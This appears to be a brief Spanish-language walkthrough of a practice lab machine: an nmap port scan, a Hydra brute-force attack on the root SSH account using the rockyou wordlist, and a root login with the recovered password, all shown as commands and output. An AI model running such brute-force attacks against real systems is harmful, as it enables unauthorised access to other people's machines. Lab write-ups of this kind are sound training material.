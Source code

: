 # Herramientas
- Nmap
- Hydra
- SecLists
# Procedimiento
Hacemos el escaneo inicial con nmap y obtenemos esto:
```
nmap -p- 172.17.0.3  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 11:57 -04  
Nmap scan report for 172.17.0.3  
Host is up (0.0000020s latency).  
Not shown: 65534 closed tcp ports (reset)  
PORT   STATE SERVICE  
22/tcp open  ssh  
MAC Address: 5E:38:D8:AC:A0:B2 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 0.49 seconds
```

Solamente está abierto el puerto 22, por lo que procedemos a hacer un ataque de fuerza bruta ocupando el usuario default de la máquina.
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organ  
izations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-14 12:01:46  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: u  
se -t 4  
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous sessio  
n found, to prevent overwriting, ./hydra.restore  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per t  
ask  
[DATA] attacking ssh://172.17.0.3:22/  
[22][ssh] host: 172.17.0.3   login: root   password: estrella  
1 of 1 target successfully completed, 1 valid password found  
[WARNING] Writing restore file because 2 final worker threads did not complete until end.  
[ERROR] 2 targets did not resolve or could not be connected  
[ERROR] 0 target did not complete  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-14 12:01:58
```

Así podemos encontrar la contraseña en cuestión, ingresamos y terminamos de hackear la máquina :)
```bash
ssh root@172.17.0.3  
  
root@172.17.0.3's password:    
Last login: Mon Jul 14 16:04:04 2025 from 172.17.0.1  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
root@87c8f8d9c268:~#
```

